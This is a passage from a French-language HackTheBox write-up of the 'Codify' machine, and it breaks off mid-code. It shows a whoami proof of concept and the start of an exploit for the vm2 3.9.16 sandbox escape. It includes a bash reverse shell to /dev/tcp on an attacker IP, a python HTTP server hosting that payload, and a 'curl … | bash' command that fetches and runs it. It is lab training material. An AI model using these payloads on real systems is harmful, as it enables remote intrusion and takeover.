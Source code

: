 Ce code permet donc d'executer la commande **whoami** et d'afficher le resultat. On observer d'ailleurs que l'utilisateur qui execute les commandes node js est **svc**

![PoC whoami](image.png)

### Exploit : vm2 library 3.9.16
Voici un code pour créer un reverse shell sur la target. Il est stocké dans un fichier `index.html`.
```bash
##!/bin/bash

bash -i >& /dev/tcp/10.10.14.125/44445 0>&1
```

On ouvre un server http sur le port 80. Cela va permettre d'effectuer un `curl` depuis la target pour récupérer le code de `index.html`.
```bash
~/github/Hacking/HackTheBox/Machines/Codify (main*) » sudo python3 -m http.server 80                        1 ↵ 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.239 - - [31/Dec/2023 15:33:13] "GET / HTTP/1.1" 200 -
```

Voici le code pour récupérer le code du reverse shell et l'executer : **curl 10.10.14.125:80 | bash**
```bash
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
```